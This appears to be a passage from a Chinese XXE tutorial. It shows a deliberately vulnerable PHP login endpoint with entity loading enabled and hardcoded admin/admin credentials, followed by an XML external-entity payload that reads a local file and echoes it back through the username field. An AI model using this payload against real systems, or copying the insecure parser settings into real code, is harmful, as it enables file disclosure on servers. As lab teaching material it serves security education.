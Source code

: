 ```bash
<?php
$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $username = $creds->username;
    $password = $creds->password;
    if($username == $USERNAME && $password == $PASSWORD){
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
    }   
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

1.  有回显

构造 payload

```bash
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///d:/qwzf.txt">
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>
```

